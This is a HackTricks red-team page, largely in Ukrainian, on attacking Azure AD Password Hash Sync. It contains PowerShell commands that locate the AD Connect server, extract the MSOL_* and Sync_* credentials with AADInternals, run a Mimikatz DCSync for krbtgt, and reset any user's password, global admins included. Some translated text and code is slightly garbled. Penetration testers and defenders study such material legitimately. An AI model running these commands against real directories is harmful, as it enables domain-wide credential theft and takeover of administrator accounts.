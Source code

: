 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Синхронізація хешів паролів** є одним із методів входу, що використовується для досягнення гібридної ідентичності. **Azure AD Connect** синхронізує хеш, хешу, пароля користувача з локальної інстанції Active Directory до хмарної інстанції Azure AD.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Це **найпоширеніший метод**, який використовують компанії для синхронізації локального AD з Azure AD.

Всі **користувачі** та **хеш паролів** синхронізуються з локального AD до Azure AD. Однак, **паролі у відкритому тексті** або **оригінальні** **хеші** не надсилаються до Azure AD.\
Більше того, **вбудовані** групи безпеки (як адміністратори домену...) **не синхронізуються** з Azure AD.

**Синхронізація хешів** відбувається кожні **2 хвилини**. Однак, за замовчуванням, **терміни дії паролів** та **терміни дії облікових записів** **не синхронізуються** в Azure AD. Тому користувач, чий **локальний пароль прострочений** (не змінений), може продовжувати **доступ до ресурсів Azure** за допомогою старого пароля.

Коли локальний користувач хоче отримати доступ до ресурсу Azure, **автентифікація відбувається в Azure AD**.

**PHS** потрібен для функцій, таких як **Захист ідентичності** та AAD Domain Services.

## Pivoting

Коли PHS налаштовано, деякі **привілейовані облікові записи** автоматично **створюються**:

* Обліковий запис **`MSOL_<installationID>`** автоматично створюється в локальному AD. Цьому обліковому запису надається роль **Облікові записи синхронізації каталогу** (див. [документацію](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), що означає, що він має **дозволи на реплікацію (DCSync) в локальному AD**.
* Обліковий запис **`Sync_<name of on-prem ADConnect Server>_installationID`** створюється в Azure AD. Цей обліковий запис може **скидати пароль будь-якого користувача** (синхронізованого або лише в хмарі) в Azure AD.

Паролі двох попередніх привілейованих облікових записів **зберігаються на SQL сервері** на сервері, де **встановлено Azure AD Connect.** Адміністратори можуть витягувати паролі цих привілейованих користувачів у відкритому тексті.\
База даних розташована в `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Можливо витягти конфігурацію з однієї з таблиць, одна з яких зашифрована:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Зашифрована конфігурація** зашифрована за допомогою **DPAPI** і містить **паролі користувача `MSOL_*`** в локальному AD та пароль **Sync\_\*** в AzureAD. Тому, компрометуючи ці дані, можна підвищити привілеї до AD та AzureAD.

Ви можете знайти [повний огляд того, як ці облікові дані зберігаються та розшифровуються в цій доповіді](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Якщо **сервер, на якому встановлено Azure AD connect**, приєднаний до домену (рекомендується в документації), його можна знайти за допомогою:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Зловживання MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Ви також можете використовувати [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) для отримання цих облікових даних.
{% endhint %}

### Зловживання Sync\_\*

Компрометуючи обліковий запис **`Sync_*`**, можливо **скинути пароль** будь-якого користувача (включаючи глобальних адміністраторів)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Також можливо **змінити паролі лише для користувачів хмари** (навіть якщо це несподівано)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Цілком можливо вивантажити пароль цього користувача.

{% hint style="danger" %}
Інший варіант полягає в тому, щоб **призначити привілейовані дозволи службовому принципалу**, що **Sync** користувач має **дозволи** на це, а потім **отримати доступ до цього службового принципалу** як спосіб підвищення привілеїв.
{% endhint %}

### Безшовний SSO

Можливо використовувати безшовний SSO з PHS, який вразливий до інших зловживань. Перевірте це в:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Посилання

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
